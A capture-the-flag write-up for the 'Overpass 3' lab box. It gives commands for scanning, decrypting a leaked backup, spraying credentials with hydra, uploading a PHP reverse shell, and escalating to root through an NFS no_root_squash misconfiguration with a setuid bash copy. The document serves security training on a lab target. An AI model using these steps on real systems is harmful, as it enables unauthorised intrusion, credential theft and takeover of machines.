 
# Overpass 3

## *Web flag*

We'll start with our usual nmap scan:

```bash
$ sudo nmap 10.10.69.167 -Pn -p- -vv -A -T4 --script discovery,vuln -oN nmap-scan --min-parallelism 55
```

```bash
$ cat nmap-scan | grep -o -e "[0-9]\+/tcp .*"
```

- [ ] 21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
- [ ] 22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.0 (protocol 2.0)
- [ ] 80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.37 ((centos))

We'll start with ***http*** service. Nmap tells us there's a backup folder:

```
| http-enum: 
|   /backups/: Backup folder w/ directory listing
|_  /icons/: Potentially interesting folder w/ directory listing
```

Luckily for us, there's a ***backup.zip*** file. Downoad it.

```bash
$ unzip backup.zip

$ gpg --import priv.key

$ gpg -d CustomerDetails.xlsx.gpg > CustomerDetails.xlsx

$ gpg --delete-secret-and-public-keys Paradox
```

![backup](https://i.postimg.cc/JhjBjLbT/backup.png)

Save the credentials to ***creds.txt*** file in 'username:password' format.

Next, lets try to login to other services with obtained credentials:

```bash
$ hydra -C creds.txt 10.10.69.167 ftp -V

$ hydra -C creds.txt 10.10.69.167 ssh -V
```

We're able to login to ftp! Upload a php reverse shell there and visit it in your 
browser.

Navigate to apache's home directory:

```bash
$ cd /usr/share/httpd
```

You'll find the web flag in there.

---

## *User & Root flags*

 Next, switch to Paradox user (use the credentials
from the xlsx file). Download and run ***linpeas.ng***.

An interesting PE vector pops out:

```
╔══════════╣ Analyzing NFS Exports Files (limit 70)
-rw-r--r--. 1 root root 54 nov 18  2020 /etc/exports
/home/james *(rw,fsid=0,sync,no_root_squash,insecure)
```

Get the mount information about NFS server:

```bash
$ showmount -e 10.10.69.167
```

```
clnt_create: RPC: Unable to receive
```

Apparently, nfs is accessible only from that host. We'll use ssh port forwarding
to access the service. First, generate ssh keys using `ssh-keygen`, then transfer
the public key to the host and append it to ***/.ssh/authorized_keys***.

After you're done, forward the local port 2049 to the remote one:

```bash
$ ssh -i id_rsa paradox@10.10.69.167 -L 2049:10.10.69.167:2049
```

Now, exploit [NFS no root squash](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/nfs-no_root_squash-misconfiguration-pe)

```bash
$ mkdir pe

$ sudo mount -t nfs localhost:/ ./pe

$ cd pe

$ su root

$ cp /bin/bash .

$ chmod +s bash
```

Now, copy james's private ssh key from ***pe/.ssh/*** and login as james.

Read the user flag

Escalate to root:

```bash
$ ./bash -p
```





